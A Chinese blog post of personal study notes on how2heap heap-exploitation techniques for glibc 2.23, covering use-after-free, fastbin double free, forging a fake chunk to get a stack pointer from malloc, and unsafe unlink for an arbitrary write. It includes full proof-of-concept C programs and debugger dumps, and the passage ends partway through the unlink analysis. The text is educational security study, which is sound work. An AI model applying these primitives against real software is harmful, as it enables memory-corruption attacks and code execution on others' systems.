









# 前言

开始how2heap的学习，好好学一波堆，太难咧呜呜呜。

环境都是基于glibc-2.23，暂时how2heap中有的漏洞需要特定的glibc版本，但是孩子暂时不太会怎么用别的glibc版本，所以暂时都基于2.23，后续换了会特别说明。

# first_fit

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main()
{
	fprintf(stderr, "This file doesn't demonstrate an attack, but shows the nature of glibc's allocator.\n");
	fprintf(stderr, "glibc uses a first-fit algorithm to select a free chunk.\n");
	fprintf(stderr, "If a chunk is free and large enough, malloc will select this chunk.\n");
	fprintf(stderr, "This can be exploited in a use-after-free situation.\n");

	fprintf(stderr, "Allocating 2 buffers. They can be large, don't have to be fastbin.\n");
	char* a = malloc(0x512);
	char* b = malloc(0x256);
	char* c;

	fprintf(stderr, "1st malloc(0x512): %p\n", a);
	fprintf(stderr, "2nd malloc(0x256): %p\n", b);
	fprintf(stderr, "we could continue mallocing here...\n");
	fprintf(stderr, "now let's put a string at a that we can read later \"this is A!\"\n");
	strcpy(a, "this is A!");
	fprintf(stderr, "first allocation %p points to %s\n", a, a);

	fprintf(stderr, "Freeing the first one...\n");
	free(a);

	fprintf(stderr, "We don't need to free anything again. As long as we allocate smaller than 0x512, it will end up at %p\n", a);

	fprintf(stderr, "So, let's allocate 0x500 bytes\n");
	c = malloc(0x500);
	fprintf(stderr, "3rd malloc(0x500): %p\n", c);
	fprintf(stderr, "And put a different string here, \"this is C!\"\n");
	strcpy(c, "this is C!");
	fprintf(stderr, "3rd allocation %p points to %s\n", c, c);
	fprintf(stderr, "first allocation %p points to %s\n", a, a);
	fprintf(stderr, "If we reuse the first allocation, it now holds the data from the third allocation.\n");
}
```

英文都讲的很清楚了，这里理清一下ptmalloc2的malloc的逻辑。

fastbin中的bin有10个（但是索引为9似乎用不上）

32位：

| 索引 | 0      | 1    | 2    | 3    | 4    | 5    | 6    | 7    | 8    | 9    |
| ---- | ------ | ---- | ---- | ---- | ---- | ---- | ---- | ---- | ---- | ---- |
| 长度 | 16字节 | 24   | 32   | 40   | 48   | 56   | 64   | 72   | 80   |      |

这就是wiki上说的，默认情况下（**32 位系统为例**）， fastbin 中默认支持最大的 chunk 的数据空间大小为 64 字节。但是其可以支持的 chunk 的数据空间最大为 80 字节。

64位：

| 索引 | 0      | 1    | 2    | 3    | 4    | 5    | 6    | 7    | 8    | 9    |
| ---- | ------ | ---- | ---- | ---- | ---- | ---- | ---- | ---- | ---- | ---- |
| 长度 | 32字节 | 48   | 64   | 80   | 96   | 112  | 128  | 144  | 160  |      |


申请的长度都比fastbin的最大长度要大，肯定这个free chunk在unsorted bin中。然后就是`glibc uses a first-fit algorithm to select a free chunk`。

主要的还是领悟一下，那个a没有指null导致了重新malloc后a又可以有内容，即use after free漏洞。


# fastbin_dup

```c
#include <stdio.h>
#include <stdlib.h>
#include <assert.h>

int main()
{
	fprintf(stderr, "This file demonstrates a simple double-free attack with fastbins.\n");

	fprintf(stderr, "Allocating 3 buffers.\n");
	int *a = malloc(8);
	int *b = malloc(8);
	int *c = malloc(8);

	fprintf(stderr, "1st malloc(8): %p\n", a);
	fprintf(stderr, "2nd malloc(8): %p\n", b);
	fprintf(stderr, "3rd malloc(8): %p\n", c);

	fprintf(stderr, "Freeing the first one...\n");
	free(a);

	fprintf(stderr, "If we free %p again, things will crash because %p is at the top of the free list.\n", a, a);
	// free(a);

	fprintf(stderr, "So, instead, we'll free %p.\n", b);
	free(b);

	fprintf(stderr, "Now, we can free %p again, since it's not the head of the free list.\n", a);
	free(a);

	fprintf(stderr, "Now the free list has [ %p, %p, %p ]. If we malloc 3 times, we'll get %p twice!\n", a, b, a, a);
	a = malloc(8);
	b = malloc(8);
	c = malloc(8);
	fprintf(stderr, "1st malloc(8): %p\n", a);
	fprintf(stderr, "2nd malloc(8): %p\n", b);
	fprintf(stderr, "3rd malloc(8): %p\n", c);

	assert(a == c);
}
```

主要演示了`double-free`攻击。

首先`malloc`三次，先把a释放，这时候这个free chunk添加到fastbins。

这时候如果再次`free(a)`就会崩溃，libc2.23中对double-free检查如下：

```c
    /* Check that the top of the bin is not the record we are going to add
       (i.e., double free).  */
    if (__builtin_expect (old == p, 0))
      {
        errstr = "double free or corruption (fasttop)";
        goto errout;
      }
```

fastbin类似的是一个后进先出的栈结构，它这样相当于检查顶部（最后进的那一个）不是我们当前正在free的那一个，所以再把b给free，这样a就不在顶部，再free a的话就可以成功。

这时候fastbin的结构应该是这样：

```
bin->a->b->a
```





前4字节是chunk a,后4字节是chunk b。

可以看到chunk a的fd指针是`0x00602020`，指向了chunk b。

而chunk b的fd指针是`0x00602000`，指向了chunk a。

因为a先入fastbin，bin的fd指向a。b再入fastbin后，b的fd指向a，bin的fd指向b。然后二次free后，这时候a的fd被修改为了b。这时候就形成了一个环。

一个示例：

```c
feng@ubuntu: ~/Desktop/how2heap/glibc_2.23$ cat test.c
#include <stdio.h>
#include <stdlib.h>
int main()
{
	int *a = malloc(8);
        int *b = malloc(8);
        int *c = malloc(8);
	fprintf(stderr,"a:%p\n",a);
	fprintf(stderr,"b:%p\n",b);
	fprintf(stderr,"c:%p\n",c);
	free(a);
	free(b);
	free(a);
	fprintf(stderr,"%p\n",malloc(8));
        fprintf(stderr,"%p\n",malloc(8));

        fprintf(stderr,"%p\n",malloc(8));

        fprintf(stderr,"%p\n",malloc(8));
	return 0;

}
feng@ubuntu: ~/Desktop/how2heap/glibc_2.23$ ./test
a:0x17b3010
b:0x17b3030
c:0x17b3050
0x17b3010
0x17b3030
0x17b3010
0x17b3030
feng@ubuntu: ~/Desktop/how2heap/glibc_2.23$ 

```


然后再三次malloc导致了chunk a被分配2次：

```shell
1st malloc(8): 0x603010
2nd malloc(8): 0x603030
3rd malloc(8): 0x603010

```

# fastbin_dup_into_stack

```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
	fprintf(stderr, "This file extends on fastbin_dup.c by tricking malloc into\n"
	       "returning a pointer to a controlled location (in this case, the stack).\n");

	unsigned long long stack_var;

	fprintf(stderr, "The address we want malloc() to return is %p.\n", 8+(char *)&stack_var);

	fprintf(stderr, "Allocating 3 buffers.\n");
	int *a = malloc(8);
	int *b = malloc(8);
	int *c = malloc(8);

	fprintf(stderr, "1st malloc(8): %p\n", a);
	fprintf(stderr, "2nd malloc(8): %p\n", b);
	fprintf(stderr, "3rd malloc(8): %p\n", c);

	fprintf(stderr, "Freeing the first one...\n");
	free(a);

	fprintf(stderr, "If we free %p again, things will crash because %p is at the top of the free list.\n", a, a);
	// free(a);

	fprintf(stderr, "So, instead, we'll free %p.\n", b);
	free(b);

	fprintf(stderr, "Now, we can free %p again, since it's not the head of the free list.\n", a);
	free(a);

	fprintf(stderr, "Now the free list has [ %p, %p, %p ]. "
		"We'll now carry out our attack by modifying data at %p.\n", a, b, a, a);
	unsigned long long *d = malloc(8);

	fprintf(stderr, "1st malloc(8): %p\n", d);
	fprintf(stderr, "2nd malloc(8): %p\n", malloc(8));
	fprintf(stderr, "Now the free list has [ %p ].\n", a);
	fprintf(stderr, "Now, we have access to %p while it remains at the head of the free list.\n"
		"so now we are writing a fake free size (in this case, 0x20) to the stack,\n"
		"so that malloc will think there is a free chunk there and agree to\n"
		"return a pointer to it.\n", a);
	stack_var = 0x20;

	fprintf(stderr, "Now, we overwrite the first 8 bytes of the data at %p to point right before the 0x20.\n", a);
	*d = (unsigned long long) (((char*)&stack_var) - sizeof(d));

	fprintf(stderr, "3rd malloc(8): %p, putting the stack address on the free list\n", malloc(8));
	fprintf(stderr, "4th malloc(8): %p\n", malloc(8));
}
```

在上一个的基础上欺骗`malloc`返回一个可控区域的指针，本题是在栈中。对于我这样的菜鸡来说，因为第一次碰堆没有学太懂导致这题看了快2个小时终于看明白为什么了呜呜呜。

3次malloc，3次free以及2次malloc之后，这时候fastbin中只剩下一个a。

虽然它还没有被分配，但是通过double free，我们已经可以控制它的user data了。

联想chunk的数据结构，fastbin的chunk的user data处开头是fd，且堆是从低地址向高地址增长的：


因此这条代码就是把stack_var变量的地址覆盖给d指向那块内存：

```c
*d = (unsigned long long) (((char*)&stack_var) - sizeof(d));
```

`stack_var`的地址是`0x7fffffffdda0`，减去8个字节就是`0x7fffffffdd98`，再看看fastbin中：



chunk a的fd被覆盖成了`0x7fffffffdd98`。

这样第三次malloc的时候，就会将bin的fd指向a的fd，也就是`0x7fffffffdd98`，这样第四次malloc的时候分配的地址就是我们故意控制的`0x7fffffffdd98`了。

这样似乎都已经很好了，为什么还要故意让`stack_var = 0x20`呢？

这是因为glibc 在执行分配操作时，若块的大小符合 fast bin，则会在对应的 bin 中寻找合适的块，此时 glibc 将根据候选块的 size 字段计算出 fastbin 索引，然后与对应 bin 在 fastbin 中的索引进行比较，如果二者不匹配，则说明块的 size 字段遭到破坏。所以需要 fake chunk 的 size 字段被设置为正确的值。

我们的这个bin链表是大小为0x20的，所以想要不出错，size需要给0x20。

这时候一个让人懵的地方就是，为什么栈上给个0x20，size就0x20了？

gdb调一下可以发现栈上其实是这样的：



d在高地址，而对于堆来说是从低地址向高地址增长。

第一次`unsigned long long *d = malloc(8);`让d得到chunk a，虽然d其实并不是一个chunk，只是我们恶意让d在fastbin中还有a的情况下，d指向了a，导致我们可以修改fastbin中的chunk a。

注意一下fd指针指向的是chunk的头部的开头而不是user data，所以第四次malloc之后栈的情况是这样：



这时候stack_var就是malloc恶意得到的内存块的size，这样就设置成了正确的值了。

终于懂了，泪目呜呜，孩子太菜了。


# fastbin_dup_consolidate

```c
#include <stdio.h>
#include <stdint.h>
#include <stdlib.h>

int main() {
  void* p1 = malloc(0x40);
  void* p2 = malloc(0x40);
  fprintf(stderr, "Allocated two fastbins: p1=%p p2=%p\n", p1, p2);
  fprintf(stderr, "Now free p1!\n");
  free(p1);

  void* p3 = malloc(0x400);
  fprintf(stderr, "Allocated large bin to trigger malloc_consolidate(): p3=%p\n", p3);
  fprintf(stderr, "In malloc_consolidate(), p1 is moved to the unsorted bin.\n");
  free(p1);
  fprintf(stderr, "Trigger the double free vulnerability!\n");
  fprintf(stderr, "We can pass the check in malloc() since p1 is not fast top.\n");
  fprintf(stderr, "Now p1 is in unsorted bin and fast bin. So we'will get it twice: %p %p\n", malloc(0x40), malloc(0x40));
}
```

其实还是`double free`漏洞，只不过这里利用了malloc large chunk时的操作来将chunk a从fastbin的top移走了。

涉及的是wiki上的这个知识点：



第三次malloc的是0x400，肯定是large bin的大小，先获取下表然后判断fastbin中是否有chunk，因为有chunk a，所以需要调用`malloc_consolidate`，合并fastbin中的chunk然后放到unsorted bin中（实际上之后又被放入了small bin中，参考wiki上的就知道了，不过这里暂时我也没搞太懂，以后这里理清了再来写一些），这时候fastbin的top就不是chunk a了，所以可以double free。此时chunk a同时存在于fastbins和small bins中。



# unsafe_unlink

孩子太菜了呜呜呜，看了一个下午4个小时终于看明白了，难道是二进制确实不适合我吗。。。。感觉看的好费劲。

对于指针啥的也搞的不太清楚，所以卡了很久。

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <assert.h>

uint64_t *chunk0_ptr;

int main()
{
	setbuf(stdout, NULL);
	printf("Welcome to unsafe unlink 2.0!\n");
	printf("Tested in Ubuntu 14.04/16.04 64bit.\n");
	printf("This technique can be used when you have a pointer at a known location to a region you can call unlink on.\n");
	printf("The most common scenario is a vulnerable buffer that can be overflown and has a global pointer.\n");

	int malloc_size = 0x80; //we want to be big enough not to use fastbins
	int header_size = 2;

	printf("The point of this exercise is to use free to corrupt the global chunk0_ptr to achieve arbitrary memory write.\n\n");

	chunk0_ptr = (uint64_t*) malloc(malloc_size); //chunk0
	uint64_t *chunk1_ptr  = (uint64_t*) malloc(malloc_size); //chunk1
	printf("The global chunk0_ptr is at %p, pointing to %p\n", &chunk0_ptr, chunk0_ptr);
	printf("The victim chunk we are going to corrupt is at %p\n\n", chunk1_ptr);

	printf("We create a fake chunk inside chunk0.\n");
	printf("We setup the 'next_free_chunk' (fd) of our fake chunk to point near to &chunk0_ptr so that P->fd->bk = P.\n");
	chunk0_ptr[2] = (uint64_t) &chunk0_ptr-(sizeof(uint64_t)*3);
	printf("We setup the 'previous_free_chunk' (bk) of our fake chunk to point near to &chunk0_ptr so that P->bk->fd = P.\n");
	printf("With this setup we can pass this check: (P->fd->bk != P || P->bk->fd != P) == False\n");
	chunk0_ptr[3] = (uint64_t) &chunk0_ptr-(sizeof(uint64_t)*2);
	printf("Fake chunk fd: %p\n",(void*) chunk0_ptr[2]);
	printf("Fake chunk bk: %p\n\n",(void*) chunk0_ptr[3]);

	printf("We assume that we have an overflow in chunk0 so that we can freely change chunk1 metadata.\n");
	uint64_t *chunk1_hdr = chunk1_ptr - header_size;
	printf("We shrink the size of chunk0 (saved as 'previous_size' in chunk1) so that free will think that chunk0 starts where we placed our fake chunk.\n");
	printf("It's important that our fake chunk begins exactly where the known pointer points and that we shrink the chunk accordingly\n");
	chunk1_hdr[0] = malloc_size;
	printf("If we had 'normally' freed chunk0, chunk1.previous_size would have been 0x90, however this is its new value: %p\n",(void*)chunk1_hdr[0]);
	printf("We mark our fake chunk as free by setting 'previous_in_use' of chunk1 as False.\n\n");
	chunk1_hdr[1] &= ~1;

	printf("Now we free chunk1 so that consolidate backward will unlink our fake chunk, overwriting chunk0_ptr.\n");
	printf("You can find the source of the unlink macro at https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=ef04360b918bceca424482c6db03cc5ec90c3e00;hb=07c18a008c2ed8f5660adba2b778671db159a141#l1344\n\n");
	free(chunk1_ptr);

	printf("At this point we can use chunk0_ptr to overwrite itself to point to an arbitrary location.\n");
	char victim_string[8];
	strcpy(victim_string,"Hello!~");
	chunk0_ptr[3] = (uint64_t) victim_string;

	printf("chunk0_ptr is now pointing where we want, we use it to overwrite our victim string.\n");
	printf("Original value: %s\n",victim_string);
	chunk0_ptr[0] = 0x4141414142424242LL;
	printf("New Value: %s\n",victim_string);

	// sanity check
	assert(*(long *)victim_string == 0x4141414142424242L);
}

```

本题演示的其实就是利用`unlink`实现任意地址的读写。


unlink 用来将一个双向链表（只存储空闲的 chunk）中的一个元素取出来，可能在以下地方使用

- malloc
  - 从恰好大小合适的 large bin 中获取 chunk。
    - **这里需要注意的是 fastbin 与 small bin 就没有使用 unlink，这就是为什么漏洞会经常出现在它们这里的原因。**
    - 依次遍历处理 unsorted bin 时也没有使用 unlink 。
  - 从比请求的 chunk 所在的 bin 大的 bin 中取 chunk。
- free
  - 后向合并，合并物理相邻低地址空闲 chunk。
  - 前向合并，合并物理相邻高地址空闲 chunk（除了 top chunk）。
- malloc_consolidate
  - 后向合并，合并物理相邻低地址空闲 chunk。
  - 前向合并，合并物理相邻高地址空闲 chunk（除了 top chunk）。
- realloc
  - 前向扩展，合并物理相邻高地址空闲 chunk（除了 top chunk）。

unlink其实操作就是这些（不管large bin）：

```c
    FD = P->fd;								      
    BK = P->bk;		
    FD->bk = BK;							   
    BK->fd = FD;
```



比如在free第三个chunk的时候，发现第二个chunk是空闲的chunk，就会触发`unlink`。将第二个chunk为p，则：

```c
p->fd->bk = p->bk;
p->bk->fd = p->fd;
```



所以p自身的fd和bk其实并没改变。

再想想能攻击什么。如果p是我们可控的（比如溢出之类的操作），这时候我们向fd中写入我们想要控制的那块地址-24，即addr-24，bk中写数据，这样的话：

```c
p->fd->bk = p->bk;
变成了
*(addr-24+24) = data
```

实现了任意写。

对于`p->bk->fd = p->fd;`就是`*(data+16) = addr - 24`

但是unlink的源码：

```c
/* Take a chunk off a bin list */
// unlink p
#define unlink(AV, P, BK, FD) {                                            \
    // 由于 P 已经在双向链表中，所以有两个地方记录其大小，所以检查一下其大小是否一致。
    if (__builtin_expect (chunksize(P) != prev_size (next_chunk(P)), 0))      \
      malloc_printerr ("corrupted size vs. prev_size");               \
    FD = P->fd;                                                                      \
    BK = P->bk;                                                                      \
    // 防止攻击者简单篡改空闲的 chunk 的 fd 与 bk 来实现任意写的效果。
    if (__builtin_expect (FD->bk != P || BK->fd != P, 0))                      \
      malloc_printerr (check_action, "corrupted double-linked list", P, AV);  \
    else {                                                                      \
        FD->bk = BK;                                                              \
        BK->fd = FD;                                                              \
        // 下面主要考虑 P 对应的 nextsize 双向链表的修改
        if (!in_smallbin_range (chunksize_nomask (P))                              \
            // 如果P->fd_nextsize为 NULL，表明 P 未插入到 nextsize 链表中。
            // 那么其实也就没有必要对 nextsize 字段进行修改了。
            // 这里没有去判断 bk_nextsize 字段，可能会出问题。
            && __builtin_expect (P->fd_nextsize != NULL, 0)) {                      \
            // 类似于小的 chunk 的检查思路
            if (__builtin_expect (P->fd_nextsize->bk_nextsize != P, 0)              \
                || __builtin_expect (P->bk_nextsize->fd_nextsize != P, 0))    \
              malloc_printerr (check_action,                                      \
                               "corrupted double-linked list (not small)",    \
                               P, AV);                                              \
            // 这里说明 P 已经在 nextsize 链表中了。
            // 如果 FD 没有在 nextsize 链表中
            if (FD->fd_nextsize == NULL) {                                      \
                // 如果 nextsize 串起来的双链表只有 P 本身，那就直接拿走 P
                // 令 FD 为 nextsize 串起来的
                if (P->fd_nextsize == P)                                      \
                  FD->fd_nextsize = FD->bk_nextsize = FD;                      \
                else {                                                              \
                // 否则我们需要将 FD 插入到 nextsize 形成的双链表中
                    FD->fd_nextsize = P->fd_nextsize;                              \
                    FD->bk_nextsize = P->bk_nextsize;                              \
                    P->fd_nextsize->bk_nextsize = FD;                              \
                    P->bk_nextsize->fd_nextsize = FD;                              \
                  }                                                              \
              } else {                                                              \
                // 如果在的话，直接拿走即可
                P->fd_nextsize->bk_nextsize = P->bk_nextsize;                      \
                P->bk_nextsize->fd_nextsize = P->fd_nextsize;                      \
              }                                                                      \
          }                                                                      \
      }                                                                              \
}
```

有2个限制（2.23，之后的版本有更多的限制，以后再慢慢接触慢慢学）。

一个是这个：

```c
if (__builtin_expect (chunksize(P) != prev_size (next_chunk(P)), 0)) 
```

检查chunk p的size和下一个chunk的prev_size的值是否一样。

另外一个就是：

```c
if (__builtin_expect (FD->bk != P || BK->fd != P, 0)) 
```

本例就是通过绕过这两个限制来实现任意地址写入。绕过的思路需要一个全局变量，而且最好没有PIE。


关键是这两个操作：

```c
	chunk0_ptr[2] = (uint64_t) &chunk0_ptr-(sizeof(uint64_t)*3);
	chunk0_ptr[3] = (uint64_t) &chunk0_ptr-(sizeof(uint64_t)*2);
```

接下来需要理清各种内存和指向的关系。

```c
pwndbg> x/30gx 0x603000
0x603000:	0x0000000000000000	0x0000000000000091
0x603010:	0x0000000000000000	0x0000000000000000
0x603020:	0x0000000000602060	0x0000000000602068
0x603030:	0x0000000000000000	0x0000000000000000
0x603040:	0x0000000000000000	0x0000000000000000
0x603050:	0x0000000000000000	0x0000000000000000
0x603060:	0x0000000000000000	0x0000000000000000
0x603070:	0x0000000000000000	0x0000000000000000
0x603080:	0x0000000000000000	0x0000000000000000
0x603090:	0x0000000000000000	0x0000000000000091
0x6030a0:	0x0000000000000000	0x0000000000000000
0x6030b0:	0x0000000000000000	0x0000000000000000
0x6030c0:	0x0000000000000000	0x0000000000000000
0x6030d0:	0x0000000000000000	0x0000000000000000
0x6030e0:	0x0000000000000000	0x0000000000000000

```

可以认为，我们在chunk 0里面恶意构造了一个chunk p。它的fd就是从0x603020开始的。可以认为，这个chunk p的头是从0x603010开始的。

这时候再看`if (__builtin_expect (FD->bk != P || BK->fd != P, 0))`。

chunk0_ptr的地址是0x602078，指向0x603010。

```c
FD = p->fd = &p-24 = 0x602060 (指的是FD那块内存上存放的值是0x602060，说明FD是指向0x602060的指针)
BK = p->bk = &p-16 = 0x602068
FD->bk = *(0x602060+24) = *（0x602078） = 0x603010
